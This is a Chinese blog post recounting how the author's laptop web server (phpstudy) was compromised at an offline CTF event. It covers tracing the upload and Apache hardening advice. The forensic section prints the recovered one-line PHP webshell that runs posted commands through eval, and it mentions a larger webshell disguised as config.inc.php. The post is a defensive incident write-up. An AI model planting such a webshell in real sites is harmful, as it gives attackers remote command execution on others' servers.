





# 线下赛-个人电脑防护-2017

<i style="color:grey">Last Updated: 2017-8-20</i>  
<script async src="//dn-lbstatics.qbox.me/busuanzi/2.3/busuanzi.pure.mini.js"></script>
<span id="busuanzi_container_page_pv" style="float:right;">
  Page views: <span id="busuanzi_value_page_pv"></span>
</span><br>


* 线下 or 不安全的网络环境不要开服务    
* 减少不必要的端口   
* 保持账户监控：离开风险网络后留意个人账号动向


## 情况描述  
某线下赛，布置题目期间。  
本机运行phpstudy服务，开放了80端口，在内网里被扫到了。  
phpstudy权限很高，httpd.conf里的访问配置是Allow from all。  
WWW 下面有几套 cms 和 自己练习的upload模板。

## 溯源
没流量确实没法看操作了，但能看到文件操作的结果。    
everything `*` 按时间排序所有文件，查看当时的现场。
<div align="center"></div>

### 上传点：
缘起WWW/upload/upload.php，小马被上传到了upload文件夹下，当时的上传点:
<div align="center"></div>


### 溯源后发现：
<div align="center"></div>

a href=./so.php 2017/07/08 15:58

    <?php
    eval($_POST[cmd]);
    ?>  
    
a href=./config.inc.php，看修改日期后确认是大马。

原先存在相似的文件名称，为：```D:\phpStudy\WWW\MyAdmin\setup\frames\config.inc.php```
<br>
<br>
<br>
*xdebug输出的 cachegrind 文件不知如何分析？不胜赐教！文件内容大同小异，如下：*
<div align="center"></div>
能看到利用php的操作:
<div align="center"></div>


## 建议：

    进程 异常网络连接 系统日志 win防火墙；  
    系统带的工具别当摆设  
    用PHPstudy要记得降权  
    路由nat+虚拟机  


<br><br><br><br><br><br>


## 延伸 

### 1. httpd安全配置(win下phpstudy)

修改httpd.conf ，Apache的配置文件，在phpstudy 中可以找到。保存配置文件的修改后，一定记得要 restart 一次Apache服务使修改生效。

#### 1.1 监听ip修改：

`<Directory />`标签下改为：  

    Allow from 127.0.0.1

#### 1.2 apache-log：

开启访问请求日志

`<IfModule log_config_module>`标签下
    
    CustomLog D:\phpStudy\Apache\apache-access-log common

Apache服务器的访问日志名称在linux下默认：access_log，可以利用find查找；windows下是access.log文件


#### 1.3 index.html  
师兄一看到这样的情况就问我是不是空了index.html让路径暴露出来了。。。

`<IfModule dir_module>`标签下

    DirectoryIndex index.html index.php

#### 1.4 禁列目录

`<Directory />`标签下

    Options +Indexes +FollowSymLinks +ExecCGI

去掉Indexes。(Indexes表示若当前目录没有index.html就会显示目录结构)

#### 1.5 权限控制调整

[todo] apache的执行权限


*上面的针对个人测试代码环境的安全加固已经差不多了。关于服务器方面，有本《LAMP加固》，就不重复造轮子了。*

**总之：别裸奔。。。**


### 2. htaccess

[wiki：.htaccess](https://wiki.apache.org/httpd/Htaccess)

### 3. 内网扫描 
nmap，自己写的脚本

### 4. 线下时的蜜罐
拉个docker?收集一波姿势。


| 标题：线下赛-个人电脑防护  
| 作者：强王  
| 发布：2017-08-20  
| 来源：http://qiangwang.site/blog/tip-2017-game  
| 版权声明： 本文由 强王 原创，采用[保留署名-非商业性使用-禁止演绎 4.0-国际许可协议](https://creativecommons.org/licenses/by-nc-nd/4.0/deed.zh)  
| 转载请保留以上声明信息